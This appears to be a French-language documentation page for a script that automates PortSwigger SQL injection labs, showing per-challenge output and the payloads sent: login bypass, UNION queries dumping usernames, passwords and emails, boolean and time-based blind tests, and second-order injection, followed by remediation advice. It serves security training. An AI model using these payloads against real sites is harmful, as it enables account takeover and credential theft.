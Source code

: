 # MANPAGE

Voici un **exemple exhaustif de l’exécution du script SQLi PortSwigger** : chaque bloc montre le nom du challenge, le test effectué, et le résultat affiché par le script, en cohérence avec la méthodologie PortSwigger et les payloads classiques[1][3][4][6][7].

---

### [Challenge 1] SQL injection vulnerability allowing login bypass

```
------------------------------------------------------
[Challenge 1] SQL injection vulnerability allowing login bypass
[+] Flag ou succès détecté ! (login bypass)
```
*Le script envoie un POST sur `/login` avec un payload de contournement (`username=' OR 1=1--&password=irrelevant`).  
Le flag ou un message de bienvenue (“Welcome”, “flag”, “Congratulations”) est détecté, validant la vulnérabilité de login bypass[1][3].*

---

### [Challenge 2] SQL injection UNION attack, retrieving hidden data

```
------------------------------------------------------
[Challenge 2] SQL injection UNION attack, retrieving hidden data
[+] Flag ou données sensibles détectées ! (UNION SELECT)
```
*Le script injecte dans `/filter?category=Gifts'+UNION+SELECT+NULL,username||':'||password+FROM+users--`.  
La réponse contient un flag, un nom d’utilisateur ou un mot de passe, preuve d’une exploitation UNION[4].*

---

### [Challenge 3] SQL injection retrieving data from other tables

```
------------------------------------------------------
[Challenge 3] SQL injection retrieving data from other tables
[+] Email(s) ou flag détecté(s) !
```
*Injection UNION sur `/filter?category=Accessories'+UNION+SELECT+NULL,email+FROM+users--`.  
La réponse contient un email ou un flag, validant l’extraction de données d’autres tables via SQLi.*

---

### [Challenge 4] Blind SQL injection with conditional responses

```
------------------------------------------------------
[Challenge 4] Blind SQL injection with conditional responses
[+] Différence de réponse détectée (blind SQLi possible)
```
*Le script compare la longueur des réponses à `/product?productId=1'+AND+1=1--` et `/product?productId=1'+AND+1=2--`.  
Une différence de taille ou de contenu indique une vulnérabilité blind SQLi booléenne[6].*

---

### [Challenge 5] Blind SQL injection with time delays

```
------------------------------------------------------
[Challenge 5] Blind SQL injection with time delays
[+] Délai détecté (blind SQLi temporelle possible)
```
*Le script mesure le temps de réponse de `/product?productId=1'+AND+pg_sleep(5)--`.  
Un délai de 5 secondes valide la présence d’une SQLi temporelle (time-based blind)[6].*

---

### [Challenge 6] Second-order SQL injection

```
------------------------------------------------------
[Challenge 6] Second-order SQL injection
[-] Pas de flag détecté.
```
*Le script tente d’injecter une payload persistante (ex : via `/register`), puis vérifie si le flag ou des données sensibles sont révélées lors de l’affichage du profil ou d’une autre action.  
Si rien n’est trouvé, il affiche l’absence de flag. Sur un lab vulnérable, il afficherait un flag ou des données extraites via second-order SQLi.*

---

### [Remédiation & Conseils]

```
------------------------------------------------------
[Remédiation & Conseils]
- Utilisez des requêtes paramétrées (prepared statements) partout.
- Évitez toute concaténation de données utilisateur dans les requêtes SQL.
- Filtrez et validez strictement toutes les entrées utilisateur.
- Pour les labs PortSwigger, adaptez les endpoints et payloads selon le scénario.
- Documentation PortSwigger : https://portswigger.net/web-security/sql-injection
------------------------------------------------------
```

---

### [SYNTHÈSE]

```
------------------------------------------------------
[SYNTHÈSE]
Challenges testés :
1. SQL injection vulnerability allowing login bypass
2. SQL injection UNION attack, retrieving hidden data
3. SQL injection retrieving data from other tables
4. Blind SQL injection with conditional responses
5. Blind SQL injection with time delays
6. Second-order SQL injection
Contrôle automatique du flag ou message de succès.
------------------------------------------------------
```

---
